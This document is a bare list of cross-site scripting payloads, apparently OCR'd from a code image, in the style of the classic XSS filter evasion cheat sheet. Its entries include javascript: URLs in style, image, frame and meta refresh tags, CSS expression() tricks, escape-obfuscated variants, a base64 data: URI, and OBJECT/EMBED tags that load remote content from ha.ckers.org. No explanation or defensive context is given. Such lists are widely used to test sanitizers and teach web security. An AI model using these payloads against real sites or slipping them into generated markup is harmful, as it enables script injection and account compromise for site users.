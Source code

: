 	<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS

	<IMG SRC='vbscript:msgbox("XSS")'>

	<IMG SRC="mocha:[code]">

	<IMG SRC="livescript:[code]">

	¼script¾alert(¢XSS¢)¼/script¾

	<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">

	<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">

	<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">

	<IFRAME SRC="javascript:alert('XSS');"></IFRAME>

	<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>

	<TABLE BACKGROUND="javascript:alert('XSS')">

	<TABLE><TD BACKGROUND="javascript:alert('XSS')">

	<DIV STYLE="background-image: url(javascript:alert('XSS'))">

	<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">

	<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">

	<DIV STYLE="width: expression(alert('XSS'));">

	<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

	<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">

	<XSS STYLE="xss:expression(alert('XSS'))">

	exp/*<A STYLE='no\xss:noxss("*//*");
	xss:&#101;x&#x2F;*XSS*//*/*/pression(alert("XSS"))'>

	<STYLE TYPE="text/javascript">alert('XSS');</STYLE>

	<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>

	<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>

	<!--[if gte IE 4]>
	<SCRIPT>alert('XSS');</SCRIPT>
	<![endif]-->

	<BASE HREF="javascript:alert('XSS');//">

	<OBJECT TYPE="text/x-scriptlet" DATA="http://ha.ckers.org/scriptlet.html"></OBJECT>

	<OBJECT classid=clsid:ae24fdae-03c6-11d1-8b76-0080c744f389><param name=url value=javascript:alert('XSS')></OBJECT>

	<EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>
